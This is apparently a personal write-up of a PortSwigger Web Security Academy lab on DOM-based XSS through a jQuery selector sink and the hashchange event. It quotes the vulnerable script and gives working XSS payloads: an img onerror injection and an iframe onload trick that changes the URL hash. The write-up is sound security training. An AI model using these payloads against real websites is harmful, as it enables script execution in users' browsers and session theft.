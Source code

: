 # [Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

## Lab

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

## Analysis

review source code:

```js
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

- hashchange

    The `hashchange` event is fired when the fragment identifier of the URL has changed (the part of the URL beginning with and following the # symbol).

- location.hash

    The location.hash property sets or returns the anchor part of a URL, including the hash sign (#).

- Element.scrollIntoView()
    The Element interface's scrollIntoView() method scrolls the element's ancestor containers such that the element on which scrollIntoView() is called is visible to the user.

## jQuery selector exploit

```js
$('lskdjf<img src=x onerror=print()>')
```

this query execute print() function.

## Solutions

upload to exploit server:

  fail attempt:

  ```html
  <script>
  location = 'https://id.web-security-academy.net/#<img src=1 onerror=print()>'
  </script>
  ```

  success

  ```html
  <iframe src='https://id.web-security-academy.net/#' onload='this.src+="<img src=1 onerror=print()>"'></iframe>
  ```
